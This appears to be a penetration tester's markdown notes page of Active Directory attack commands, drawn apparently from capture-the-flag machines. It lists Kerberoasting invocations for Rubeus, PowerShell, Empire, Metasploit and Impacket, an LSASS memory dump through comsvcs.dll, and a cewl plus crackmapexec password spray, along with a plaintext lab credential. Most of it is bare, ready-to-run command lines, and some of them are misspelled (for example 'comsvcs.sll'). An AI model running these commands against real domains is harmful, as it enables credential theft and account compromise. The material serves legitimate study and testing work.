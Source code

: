 ![[Pasted image 20220517172639.png]]

***New Kerbroasting method on Host System***

Most of the time you will need an active account on the domain in order to initial Kerberoast, but if the DC is configured with [UserAccountControl setting “Do not require Kerberos preauthentication” enabled](https://www.harmj0y.net/blog/activedirectory/roasting-as-reps/), it is possible to request and receive a ticket to crack without a valid account on the domain.

- Rubeus.exe
	`Rubeus.exe kerberoast /outfile:hash.txt`
- ps1 Powershell Script
	`Import-Module .\Invoke-Kerbroast.ps1`
	`Invoke-Kerbroast.ps1`

***New Kerbroasting method on Remote System***
- Powershell Empire
	`usermodule credentials/invoke_kerberoast`
	`execute`
- Impacket
- Metasploit
	`powershell_import /root/powershell/Invoke-kerberost.ps1`
	`powershell_execute Invoke-Kerberost`
- Pypykatz from powershell
	`load powershell`
	`powershell_shell`
	`Get-Process Lsass`
	`cd C:\Windows\System32`
	`.\rundll32.exe comsvcs.sll, MiniDump 628 C:\lsass.DMP full`

- ***If you have normal user account and want to get the hash of  other users associated with that account then***
	- Requirement: Normal username and password (***Kerberosting***)
```bash
# List the username associated with normal user account
GetUserSPNs.py -request -dc-ip [IP] [domain]/[normal_user] -save -outfile userlist
impacket-GetUserSPNs 'vulnnet-rst.local/t-skid:tj072889*' -outputfile hashes -dc-ip 10.10.50.95
# Example
# GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/svc_tgs -save -outfile userlist

```

## References
https://wadcoms.github.io/wadcoms/Impacket-GetUserSPNs/

<center><h4>Nothing so far?.... Use password spray if you have usernames...</h4></center>

```bash
cewl http://fuse.fabricorp.local/papercut/logs/html/index.htm --with-numbers > wordlist

# Crack password
crackmapexec smb 10.10.10.193 -u users -p wordlist2.txt -d fabricorp.local --continue-on-success | grep -v "STATUS_LOGON_FAILURE"
```
